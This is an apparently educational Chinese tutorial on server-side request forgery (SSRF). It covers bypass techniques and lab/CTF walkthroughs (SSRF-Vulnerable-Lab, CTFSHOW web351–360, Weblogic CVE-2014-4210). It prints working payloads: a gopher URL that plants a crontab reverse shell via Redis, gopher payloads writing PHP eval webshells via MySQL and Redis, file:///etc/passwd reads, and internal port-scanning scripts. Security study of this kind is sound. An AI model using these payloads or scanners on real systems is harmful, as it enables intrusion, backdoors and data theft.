# SSRF漏洞

------

## 漏洞简介

```php
SSRF (Server-Side Request Forgery,服务器端请求伪造)是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统(正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统
```

------

## 漏洞原理

```php
很多web应用都提供了从其他的服务器上获取数据的功能。使用指定的URL，web应用便可以获取图片，下载文件，读取文件内容等。SSRF的实质是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。一般情况下， SSRF攻击的目标是外网无法访问的内部系统，黑客可以利用SSRF漏洞获取内部系统的一些信息（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）。SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
```

------

## 攻击方式

```php
攻击者想要访问主机B上的服务，但是由于存在防火墙或者主机B是属于内网主机等原因导致攻击者无法直接访问主机B。而服务器A存在SSRF漏洞，这时攻击者可以借助服务器A来发起SSRF攻击，通过服务器A向主机B发起请求，从而获取主机B的一些信息。
```

主要攻击方式如下所示。

- 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息。
- 攻击运行在内网或本地的应用程序。
- 对内网Web应用进行指纹识别，识别企业内部的资产信息。
- 攻击内外网的Web应用，主要是使用HTTP GET请求就可以实现的攻击(比如struts2、SQli等)。
- 利用file协议读取本地文件等。

------

## 漏洞相关函数和协议

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 `file_get_contents()` / `fsockopen()` / `curl_exec()` 等。

**1.函数**
`file_get_contents()`、`fsockopen()`、`curl_exec()`、`fopen()`、`readfile()`等函数使用不当会造成SSRF漏洞
（1）file_get_contents()

```php
<?php
$url = $_GET['url'];;
echo file_get_contents($url);
?>
```

`file_get_content`函数从用户指定的url获取内容，然后指定一个文件名进行保存，并展示给用户。file_put_content函数把一个字符串写入文件中。

（2）fsockopen()

```php
<?php 
function GetFile($host,$port,$link) { 
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30);   
    if (!$fp) { 
        echo "$errstr (error number $errno) \n"; 
    } else { 
        $out = "GET $link HTTP/1.1\r\n"; 
        $out .= "Host: $host\r\n"; 
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
```

`fsockopen`函数实现对用户指定url数据的获取，该函数使用socket（端口）跟服务器建立tcp连接，传输数据。变量host为主机名，port为端口，errstr表示错误信息将以字符串的信息返回，30为时限

（3）curl_exec()

```php
<?php 
if (isset($_POST['url'])){
    $link = $_POST['url'];
    $curlobj = curl_init();// 创建新的 cURL 资源
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);// 设置 URL 和相应的选项
    $result=curl_exec($curlobj);// 抓取 URL 并把它传递给浏览器
    curl_close($curlobj);// 关闭 cURL 资源，并且释放系统资源

    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
```

`curl_exec`函数用于执行指定的cURL会话

（4）readfile()

```php
<?php
function file_download($download)
{
	if(file_exists($download))
				{
					header("Content-Description: File Transfer"); 
					
					header('Content-Transfer-Encoding: binary');
					header('Expires: 0');
					header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
					header('Pragma: public');
					header('Accept-Ranges: bytes');
					header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
					header('Content-Length: ' . filesize($download));
					header('Content-Type: application/octet-stream'); 
					ob_clean();
					flush();
					readfile ($download);
				}
				else
				{
				echo "<script>alert('file not found');</script>";	
				}
	
}
if(isset($_POST['download']))
{
$file=trim($_POST['file']);
file_download($file);
}
```

readfile函数用于读取文件操作

**注意**

* 一般情况下PHP不会开启fopen的gopher wrapper
* file_get_contents的gopher协议不能URL编码
* file_get_contents关于Gopher的302跳转会出现bug，导致利用失败
* curl/libcurl 7.43 上gopher协议存在bug(%00截断) 经测试7.49 可用
* curl_exec() //默认不跟踪跳转，
* file_get_contents() // file_get_contents支持php://input协议

**2.协议**

* `file`： 在有回显的情况下，利用 file 协议可以读取任意内容
* `dict`：泄露安装软件版本信息，查看端口，操作内网redis服务等
* `gopher`：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell
* `http/s`：探测内网主机存活


------

## 绕过过滤

### 1、更改IP地址写法

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- `^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$`
- `^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
- `^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001
- 合并后两位：1.1.278 / 1.1.755
- 合并后三位：1.278 / 1.755 / 3.14159267

另外IP中的每一位，各个进制可以混用。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。


### 2、使用解析到内网的域名

如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 `xip.io` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。


### 3、利用解析URL所出现的问题

在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 `http://www.baidu.com@192.168.0.1/` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。


### 4、利用跳转

如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。


### 5、通过各种非HTTP协议

如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

```php
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 `file:///path/to/file` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 `file:///d:/1.txt` 来访问D盘中1.txt的内容。


###  6、DNS Rebinding

一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。


### 7、利用IPv6

有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 `[::]` `0000::1` 或IPv6的内网域名来绕过过滤。


### 8、利用IDN

一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 `ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ` 和 `example.com` 等同。利用这种方式，可以用 `① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩` 等字符绕过内网限制。


------

## 可能的利用点

### 内网服务

- Apache Hadoop远程命令执行
- axis2-admin部署Server命令执行
- Confluence SSRF
- counchdb WEB API远程命令执行
- dict
- docker API远程命令执行
- Elasticsearch引擎Groovy脚本命令执行
- ftp / ftps（FTP爆破）
- glassfish任意文件读取和war文件部署间接命令执行
- gopher
- HFS远程命令执行
- http、https
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码）
- Java调试接口命令执行
- JBOSS远程Invoker war命令执行
- Jenkins Scripts接口命令执行
- ldap
- mongodb
- php_fpm/fastcgi 命令执行
- rtsp - smb/smbs（连接SMB）
- sftp
- ShellShock 命令执行
- Struts2 命令执行
- telnet
- tftp（UDP协议扩展）
- tomcat命令执行
- WebDav PUT上传任意文件
- WebSphere Admin可部署war间接命令执行
- zentoPMS远程命令执行


### Redis利用

- 写ssh公钥
- 写crontab
- 写WebShell
- Windows写启动项
- 主从复制加载 .so 文件
- 主从复制写无损文件


### 云主机

在AWS、Google等云环境下，通过访问云环境的元数据API或管理API，在部分情况下可以实现敏感信息等效果。


------

## 漏洞复现

### SSRF-Vulnerable-Lab靶场

#### 第一题：file_get_content.php部分代码

```php
if(isset($_POST['read']))
{
$file=trim($_POST['file']);
echo htmlentities(file_get_contents($file));
} 
```

（1）读取本地敏感文件

```php
file=/etc/passwd
```



（2）扫描内网其他主机端口

```python
import requests

url = "http://192.168.0.1:8100/file_get_content.php"
ports = [21,22,23,80,135,137,139,445,443,1433,2049,3306,3389,6379,7001,8000,8080,8888,8081]
for port in ports:
    url = "http://172.17.0.1:" + str(port)
    data = {"file":url,"read":'load+file'}
    try:
        result = requests.post(url,data=data).text
        if "Connection refused" not in result:
            print(f"[+]{port} is open")
        else:
            pass
    except:
        pass
```




#### 第二题：sql_connect.php部分代码

**应用程序提供接口以连接到远程主机**
Web应用程序具有允许用户使用任何端口指定任何IP的接口。在这里，该应用程序具有尝试连接到“ MySQL”，“ LDAP”等服务的功能。

应用程序希望用户在输入字段中指定远程服务器的主机名/ IP，用户名和密码。然后，应用程序尝试通过指定的端口连接到远程服务器。在这种情况下，应用程序尝试与侦听特定端口的远程服务进行通信。当易受攻击的代码具有连接到MySQL之类的服务器的功能并且用户指定了SMB端口时，易受攻击的应用程序将尝试使用MySQL服务器服务数据包与SMB服务进行通信。即使端口是开放的，由于通信方式的差异，我们仍无法与服务进行通信。

```php
<?php
set_time_limit(0);
error_reporting(0);
if(isset($_POST['sbmt']))
{
$host=trim($_POST['host']);
$uname=trim($_POST['uname']);
$pass=trim($_POST['pass']);

$r=mysqli_connect($host,$uname,$pass);

if (mysqli_connect_errno())
  {
  echo  mysqli_connect_error();
  }
}
echo "<br>";
?>

```

默认访问页面：


将连接IP和端口更改为内网主机IP和端口号连接

在这种情况下，将观察到以下 3 种行为：

1. 如果远程 IP 没有打开端口，脚本会显示错误消息“无法建立连接，因为目标机器主动拒绝了它”。
2. 如果远程 IP 上打开了端口，但 SQL Server 没有侦听它，脚本会显示错误消息“SQL Server 已消失”。
3. 如果远程 IP 不存在，脚本会抛出错误消息“连接尝试失败，因为连接方在一段时间后没有正确响应，或者建立连接失败，因为连接的主机没有响应。”


#### 第三题：download.php部分代码

题目没有过滤，通过readfile()函数读取文件

```php
<?php
function file_download($download)
{
	if(file_exists($download))
				{
					header("Content-Description: File Transfer"); 
					
					header('Content-Transfer-Encoding: binary');
					header('Expires: 0');
					header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
					header('Pragma: public');
					header('Accept-Ranges: bytes');
					header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
					header('Content-Length: ' . filesize($download));
					header('Content-Type: application/octet-stream'); 
					ob_clean();
					flush();
					readfile ($download);
				}
				else
				{
				echo "<script>alert('file not found');</script>";	
				}
	
}
if(isset($_POST['download']))
{
$file=trim($_POST['file']);
file_download($file);
}
```

（1）读取本地敏感文件

```php
file=file:///etc/passwd&download=Donwload+file
```


### CTFSHOW题目

#### web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

**flag存于`/flag.php`**，可以访问该页面，`curl_exec($ch)`传回读取的内容，通过`echo`显示flag

**Payload:**

```php
url=file:///var/www/html/flag.php
```


#### Web352

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

限定了只允许使用http和https协议，并且过滤了localhost和127.0.0.*。这里可以将ip地址转换成其他进制或者用`0`代替
parse_url()解析请求包的参数，返回数组，scheme是请求包的协议
127.1会被解析成127.0.0.1，也就意味着为零可缺省
在Linux中，0也会被解析成127.0.0.1
127.0.0.0/8是一个环回地址网段，从127.0.0.1 ~ 127.255.255.254都表示localhost
ip地址还可以通过表示成其他进制的形式访问，IP地址二进制、十进制、十六进制互换

**Payload:**

```php
进制绕过 IP地址进制转换 链接：https://tool.520101.com/wangluo/jinzhizhuanhuan/
url=http://0x7F000001/flag.php
十六进制绕过
url=http://0x7F.0.0.1/flag.php
八进制绕过
url=http://0177.0.0.1/flag.php
0.0.0.0绕过 
url=http://0.0.0.0/flag.php
特殊的地址绕过
url=http://0/flag.php
url=http://127.1/flag.php
url=http://127.0000000000000.001/flag.php
0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0
CIDR绕过localhost
url=http://127.127.127.127/flag.php
```


#### Web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

限定了只允许使用http和https协议，并且过滤了localhost和127.0.\*.*。这里可以将ip地址转换成其他进制或者用`0`代替
parse_url()解析请求包的参数，返回数组，scheme是请求包的协议
127.1会被解析成127.0.0.1，也就意味着为零可缺省
在Linux中，0也会被解析成127.0.0.1
ip地址还可以通过表示成其他进制的形式访问，IP地址二进制、十进制、十六进制互换

**Payload:**

```php
url=http://127.1/flag.php
url=http://0/flag.php
url=http://127.255.255.254/flag.php
url=http://2130706433/flag.php
url=http://0.0.0.0/flag.php
```


#### Web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

限定了只允许使用http和https协议，并且过滤了localhost，0，1，这里可以使用DNS-Rebinding，域名指向127，302跳转三种方法来绕过

**方法一：域名指向127**

在自己的域名中添加一条A记录指向 127.0.0.1

或者使用 `http://sudo.cc`这个域名就是指向127.0.0.1

**方法二：302跳转**

在自己的网站页面添加

```php
<?php
header("Location:http://127.0.0.1/flag.php");
```

重定向到127

**方法三：DNS-Rebinding**

* 自己去ceye.io注册绑定127.0.0.1然后记得前面加r    

  url=http://r.xxxzc8.ceye.io/flag.php

如果 ceye 域名中有 1，这题就用不了这种方法了

**Payload:**

```php
url=http://sudo.cc/flag.php
```


#### Web355

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

限制`http://[host]/[path]` host部分长度小于5，0在linux系统中会解析成127.0.0.1，在windows中解析成0.0.0.0

**payload：**

```php
url=http://0/flag.php
url=http://127.1/flag.php
```


#### Web356

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

限制`http://[host]/[path]` host部分长度小于3，0在linux系统中会解析成127.0.0.1，在windows中解析成0.0.0.0

**payload：**

```php
url=http://0/flag.php
```


#### Web357

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?>
```

可以利用302跳转或者dns重绑定，在自己vps服务器创建一个ssrf.php文件，文件内容如下：

```php
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

然后提交payload请求访问ssrf.php页面即可利用302跳转读取flag

```php
url=http://vpsip/ssrf.php
```

dns重绑定：https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg


#### Web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

url必须以http://ctf.开头，必须以show结尾。
以show结尾可以#show或者?show；以http://ctf.可以加上一个@127.0.0.1这样parse_url解析出来的host是127.0.0.1

```php
url=http://ctf.@127.0.0.1/flag.php?show
url=http://ctf.@127.0.0.1/flag.php#show
```


#### web359（打无密码mysql）

（1）**打无密码的mysql，利用gopher协议无密码注入mysql，使用[Gopherus工具](https://github.com/tarunkant/Gopherus)构造payload**



（2）**生成攻击mysql数据库Payload**

- 选择构建mysql的payload
- 设置用户名，默认root
- sql注入，写入shell，这里**使用了into outfile新建shell并写入**
- 得到payload

```php
Give MySQL username: root                                                               
Give query to execute: select "<?php eval($_POST[cmd]); ?>" into outfile "/var/www/html/cmd.php";

Your gopher link is ready to do SSRF :                                                  
                                                                                        
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4b%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%20%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%63%6d%64%2e%70%68%70%22%3b%01%00%00%00%01
```



（3）登陆界面找到一个隐藏的攻击点，对其进行SSRF攻击：



（4）提交Payload

```php
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4b%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%20%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%63%6d%64%2e%70%68%70%22%3b%01%00%00%00%01
```


（5）访问cmd.php执行命令读取flag文件

```php
cmd=system("cat /flag.txt");
```




#### web360（打redis）

（1）**打redis，利用gopher协议攻击redis，使用[Gopherus工具](https://github.com/tarunkant/Gopherus)构造payload**

```php
python2 gopherus.py --exploit redis
```



（2）将gopher://127.0.0.1:6379/_后的内容进行二次url编码，python脚本如下：

```python
from urllib.parse import quote

str = "%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2433%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%27pass%27%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A"

print(quote(str))
```

（3）提交payload

```php
url=gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252433%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2527pass%2527%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```



（4）访问cmd.php执行命令读取flag文件

```php
pass=system("cat /flag.txt");
```




### Weblogic ssrf漏洞复现(CVE-2014-4210)

#### 漏洞描述

```php
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。
```


#### 漏洞编号

```php
CVE编号：CVE-2014-4210
```


#### 影响版本

* Oracle WebLogic Server 10.3.6.0
* Oracle WebLogic Server 10.0.2.0


#### 环境搭建

下载vulhub：`git clone https://github.com/vulhub/vulhub.git`

进入目录：`cd vulhub/weblogic/ssrf/`

启动环境：`docker-compose up -d`

访问：`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`

出现以下页面，说明测试环境ok。


#### 漏洞复现

（1）开启Burp代理，提交表单，抓取提交的数据包



（2）访问DNSLOG(http://www.dnslog.cn/)生成一个临时域名，将operator的值改为DNSLog生成的记录



**（3）在DNSLog中可以看到请求的内容，说明存在SSRF漏洞**



**（4）探测内网主机存活**

若请求主机不存活返回如下信息（会一直请求该地址，直到超时）


若请求主机存活返回如下信息



（5）探测内网端口

若端口不开放返回如下信息



若端口开放返回如下信息



（6）编写python脚本探测内网存活主机和开放端口

```python
import requests
import argparse
import threading
import time
import re

def scan(url,final_ip):
    ports = ['21', '22', '23', '53', '80', '135', '139', '443', '445', '1080', '1433', '1521', '3306', '3389', '6379', '4899',
    '8080', '7001', '8000']

    for port in ports:
        vul_url =  url + '/uddiexplorer/SearchPublicRegistries.jsp?operator=http://%s:%s&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&' \
                          'txtSearchfor=&selfor=Business+location&btnSubmit=Search' % (final_ip, port)
        try:
            result = requests.get(vul_url,timeout=5,verify=False)
            result0 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException', result.text)
            result1 = re.findall('route to host', result.text)
            result2 = re.findall('but could not connect', result.text)
            if len(result0) != 0 and len(result1) == 0 and len(result2) == 0:
                print("[+]%s:%s port is open" % (final_ip,port))
        except Exception as e:
            pass

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-u','--url', dest='url', help='Target url')
    parser.add_argument('-ip','--ip', dest='scan_ip', help='IP to scan')
    args = parser.parse_args()
    if args.url and args.scan_ip:
        url = args.url
        ip = '.'.join(args.scan_ip.split('.')[:-1])
        for i in range(1, 256):
            final_ip = '{ip}.{i}'.format(ip=ip, i=i)
            thread = threading.Thread(target=scan, args=(url,final_ip))
            thread.start()
            time.sleep(2)
    else:
        print("""Usage: SSRF.py  -u  <Target url>  -ip  <IP to scan>
Example: SSRF.py -u http://192.168.0.1:7001/ -ip 192.168.1.0""")
        exit()
```




### SSRF结合Redis未授权访问GetShell

#### 漏洞描述

```php
Redis因配置不当可以未授权访问（窃取数据、反弹shell、数据备份操作主从复制、命令执行）。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行flushall来清空所有数据。攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。
```


#### 环境搭建

操作系统：Centos 7

安装配置redis:

```php
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
tar -xvzf redis-3.2.0.tar.gz
cd redis-3.2.0
make   ##编译报错，可以输入make MALLOC=libc/jemalloc编译
vim redis.conf
	bind 127.0.0.1前面加上#号 # bind 127.0.0.1
	protected-mode设为no protected-mode no
./src/redis-service redis.conf
```


#### 漏洞利用

这里推荐使用**Gopherus**来帮助我们生成gopher payload来进行攻击

项目地址：https://github.com/tarunkant/Gopherus

##### 实验一：写入Webshell

利用前提：

* redis 需要对网站中的目录有写权限
* 知道网站绝对路径

（1）用Gopherus生成redis写入一句话木马Payload

```php
python2 gopherus.py --exploit redis
```



（2）将gopher://127.0.0.1:6379/_后的内容再次进行url编码，就是我们最终使用的payload了。python脚本如下：

```python
from urllib.parse import quote
payload = ('%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2430%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST'
           '%5Bcmd%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A'
           '/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php'
           '%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A')
print("gopher://127.0.0.1:6379/_" +quote(payload))
```



（3）放入URL参数浏览器请求如下，成功执行Redis命令写入webshell



（4）查看shell.php已经写入成功了



（5）执行系统命令




##### 实验二：crontab 定时任务反弹 shell

利用前提：

* Redis服务需要使用root用户运行
